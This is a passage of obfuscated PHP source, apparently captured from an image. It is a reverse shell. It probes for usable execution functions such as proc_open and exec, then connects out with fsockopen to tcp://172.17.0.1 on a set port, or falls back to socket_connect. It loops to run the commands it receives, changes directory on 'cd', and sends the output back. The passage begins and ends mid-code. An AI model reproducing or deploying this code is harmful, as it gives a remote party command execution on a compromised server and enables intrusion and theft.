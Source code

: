 	              }
	              else
	                                    if($gPpr('proc_open')&&!$WEBa('proc_open',$dis))
			     {
	                  $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);
	                  $o=NULL;
	                while(!feof($pipes[1]))
	                {
	                  $o.=fread($pipes[1],1024);
	                }
	                 @proc_close($handle);
	              }
	              else
	               if($gPpr('exec')&&!$WEBa('exec',$dis))
	               {
			        $o=array();
			        exec($c,$o);
			        $o=join(chr(10),$o).chr(10);
	               }
	               else
	               {
	                 $o=0;
	               }
	
	                return $o;
	            }
	          }
	         $nofuncs='no exec functions';
	    if(is_callable('fsockopen')and!in_array('fsockopen',$dis))
	    {
	       $s=@fsockopen("tcp://172.17.0.1",$port);
	      while($c=fread($s,2048))
	      {
	        $out = '';
	        if(substr($c,0,3) == 'cd ')
	        {
	          chdir(substr($c,3,-1));
	        } 
	        else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') 
	        {
	          break;
	        }
	        else
	        {
	          $out=WrisYTZ(substr($c,0,-1));
	          if($out===false)
	          {
	            fwrite($s,$nofuncs);
	            break;
	          }
	        }
	        fwrite($s,$out);
	     }
	      fclose($s);
	    }
	   else
	   {
	      $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
	      @socket_connect($s,$ipaddr,$port);
	      @socket_write($s,"socket_create");
	      while($c=@socket_read($s,2048))
	      {
	        $out = '';
	        if(substr($c,0,3) == 'cd ')